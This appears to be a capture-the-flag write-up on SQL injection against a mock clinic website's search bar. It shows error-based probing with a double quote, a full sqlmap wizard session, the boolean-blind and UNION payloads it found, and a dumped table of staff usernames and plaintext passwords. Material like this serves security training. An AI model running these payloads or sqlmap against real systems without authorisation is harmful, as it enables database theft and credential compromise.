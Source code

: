 # Web App Exploitation - SQL Injection

## Basic Information Gathering

We can see on the front page there is a search bar. We can try different generalized searches to see what we can find. Originally I tried searching for just a space character, this worked for finding all users. This did not help us solve for the hidden values like passwords in the database.

![image](1.png)

The next thing we need to do is to test if the search bar is vulnerable to SQL injection. We can try to search for a single quote and see what happens. We can see that the page is not vulnerable with that character. We can also try a double quote.

With the double quote we get an intresting response.

```bash
SQLITE_ERROR: unrecognized token: """
```

This means that the search bar is vulnerable to SQL injection, and it is using an SQLite database. Luckily, there is a tool that we can utlize to help us dump this databse.

```bash
sqlmap --wizard
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.9#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:03:07 /2022-10-10/

[02:03:07] [INFO] starting wizard interface
Please enter full target URL (-u): https://38ac944da2f0e2870064b39b5bbb033c-metro-clinic.web.cityinthe.cloud/
POST data (--data) [Enter for None]: q
[02:03:11] [WARNING] no GET and/or POST parameter(s) found for testing (e.g. GET parameter 'id' in 'http://www.site.com/vuln.php?id=1'). Will search for forms
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 3
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Intermediate
[3] All
> 3

sqlmap is running, please wait..

[1/1] Form:
GET https://38ac944da2f0e2870064b39b5bbb033c-metro-clinic.web.cityinthe.cloud/professionals.html?q=Enter A Name...
do you want to test this form? [Y/n/q]
> Y
Edit GET data [default: q=Enter A Name...]: q=Enter A Name...
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
GET parameter 'q' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 185 HTTP(s) requests:
---
Parameter: q (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: q=-3964" OR 5210=5210-- KyAg

    Type: UNION query
    Title: Generic UNION query (random number) - 2 columns
    Payload: q=Enter A Name..." UNION ALL SELECT 2216,CHAR(113,122,98,122,113)||CHAR(71,75,85,116,113,76,77,71,70,109,90,101,121,106,66,106,106,89,111,86,109,121,77,103,88,119,72,78,119,88,122,97,75,106,121,102,81,73,84,66)||CHAR(113,113,107,106,113)-- Kegx
---
do you want to exploit this SQL injection? [Y/n] Y
web application technology: Nginx, Express
back-end DBMS: SQLite
banner: '3.28.0'
current user is DBA: True
Database: <current>
Table: users
[11 entries]
+-----------------+---------------+---------------+-------------+
| name            | type          | password      | username    |
+-----------------+---------------+---------------+-------------+
| Hugh Garfield   | Dentist       | access        | hgarfield15 |
| Tracy Gill      | Orthopedist   | starwars123   | tgill51     |
| Katie Cain      | Neurologist   | password12345 | kcain02     |
| Mike Torres     | Pediatrician  | SKY-LUVC-3098 | mtorres33   |
| Allan Ellis     | Pediatrician  | corvette7     | aellis47    |
| Kim Jenkins     | Psychiatrist  | greyblob      | kjenkins21  |
| Kristin Holmes  | Family Doctor | letmein       | kholmes38   |
| John Johnson    | Dentist       | rootcanal     | jjohnson87  |
| Jessica Collins | Pediatrician  | asdfg123      | jcollins71  |
| Keith Fletcher  | Pediatrician  | batman1       | kfletcher53 |
| Jane Stanley    | Dermatologist | sunshine      | jstanely62  |
+-----------------+---------------+---------------+-------------+
```
